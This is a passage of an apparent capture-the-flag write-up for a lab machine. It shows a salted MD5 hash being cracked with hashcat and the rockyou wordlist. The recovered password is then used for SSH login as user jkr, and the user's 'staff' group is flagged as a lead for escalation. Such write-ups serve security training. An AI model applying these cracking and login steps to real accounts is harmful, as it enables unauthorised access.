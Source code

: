 
### Hash Cracking with Hashcat

Preparing the hash file:

```bash
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

Cracking (mode 20 = md5($salt.$pass)):

```bash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-unlock mr-2 text-green-500"></i>
        <strong>Password Found:</strong> <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded font-mono">raykayjay9</code>
    </p>
</div>

## 🔑 Phase 4 — SSH Access and User Flag

### SSH Connection

Attempting connection with discovered credentials:

```bash
ssh jkr@10.10.10.138
```

**Password:** `raykayjay9`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SSH connection successful!
    </p>
</div>

### Access Validation

```bash
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
    </div>
</div>

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Important Observation:</strong> The user belongs to the <code>50(staff)</code> group, a non-standard group that warrants investigation.
    </p>
</div>

